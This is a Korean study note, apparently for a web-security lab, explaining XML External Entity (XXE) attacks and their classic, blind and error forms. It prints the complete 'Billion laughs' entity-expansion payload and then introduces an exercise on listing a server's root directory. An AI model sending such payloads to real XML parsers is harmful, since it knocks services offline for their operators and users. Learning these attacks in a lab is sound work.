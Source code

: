 

![IMAGE 001](https://user-images.githubusercontent.com/52769104/104122766-55805c80-538a-11eb-83eb-8ee347e74e6c.png)



# 2. (A4) XML External Entities (XXE) - 문제들

## - XXE



XML External Entity attack (Injection Attack)은 입력되는 XML 구문을 Parsing하는 웹사이트등을 대상으로 이뤄지는 공격이다. 취약한 XML Parser가 External Entities를 처리할 때 발생한다. 

아래 3가지 종류의 공격으로 구분된다.

- **Classic:** in this case an external entity is included in a local DTD
                (외부 엔티티가 로컬 DTD에 포함)
- **Blind:** no output and or errors are shown in the response
                (Blind SQL Injection 공격과 비슷함)
- **Error:** try to get the content of a resource in the error message
                (오류 메시지에서 리소스의 내용을 알 수 있음)



또한, DoS 공격 또한 가능한데, XXE를 이용한 유명한 공격은 **["Billion laughs"](https://en.wikipedia.org/wiki/Billion_laughs_attack)** 이다.

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

**이 공격은 &lol;이 lol로 전환되며 10^9 = 10억번 수행되며 시스템에 엄청난 부하를 준다.**







### 첫 번째 문제, XXE Injection을 사용해 File System의 Root directory를 나열하는 것이다.
